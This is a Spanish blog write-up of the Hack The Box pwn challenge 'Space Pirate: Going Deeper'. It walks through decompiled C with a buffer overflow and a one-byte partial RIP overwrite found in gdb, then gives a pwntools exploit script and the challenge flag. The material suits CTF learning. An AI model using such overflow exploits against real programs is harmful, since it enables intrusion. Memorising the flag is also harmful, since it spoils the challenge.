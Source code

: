 ```yaml
---
layout: post
title: Space Pirate Going Deeper HTB
comments: true
categories: [Pwn, Writeups, HTB]
---
```


# Overview

Este es un reto sencillo de la plataforma [Hack the Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper), comparte título con otros dos que subiré proximamente. Espero que os sirva para aprender!

![Image]({{ site.baseurl }}/images/posts/HTB-logo.png)

# Reconocimiento

Se nos da un binario con arquitectura `x86_64`, con las siguientes protecciones:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

Con *ghidra* descompilamos para analizar el código fuente:

```c
int main(void){
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Vemos que se llama a una función `admin_panel`, donde apreciamos una vulnerabilidad de tipo *Buffer Overflow*:

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char input_str [40];
  long input_num;
  
  input_num = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n",param_1,param_2,param_3);
  
  while (((input_num != 1 && (input_num != 2)) && (input_num != 3))) {
    printf(&DAT_004014e8);
    input_num = read_num();
  }
  if (input_num == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (input_num != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  
  read(0,input_str,0x39);   //Vulnerable a Buffer Overflow (40 <- 57)

  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",input_str,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Con esto, podemos tratar de buscar el offset hasta el *RIP*, para saltarnos la verificación y ejecutar directamente la línea que imprime la flag.

Ejecutamos con *gdb-peda*:

```bash
[...]
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 2

[*] Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sin embargo, no parece que estemos sobrescribiendo *RIP*, ni *RBP*:

```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b41
```

Vamos a probar con otra letra:

```bash
[...]
[*] Username: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Y vemos que *RIP* varía un byte:

```bash
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b42
```

Por lo que tenemos un **overflow de un sólo byte**, que es más que suficiente como para llegar a donde queremos (`0x400b01`):

![Image]({{ site.baseurl }}/images/posts/2024-11-06-Space-Pirate-Going-Deeper-HTB.png)

# Explotación

Para resolver el reto sólo nos faltaría mandar una cadena de `\x01` lo suficientemente larga, para ello lo haremos mediante un script en *python* utilizando la librería *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./sp_going_deeper')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("94.237.51.112",50014)
    else:
        return process('./sp_going_deeper')

io = start()

io.sendlineafter(">>", b"1")

payload = 57 * b'\x01'

io.sendlineafter("Input:", payload)

io.interactive()
```

Lo ejecutamos en remoto y tenemos la flag!

```bash
[+] Welcome admin! The secret message is: HTB{d1g_1n51d3..u_Cry_cry_cry}
```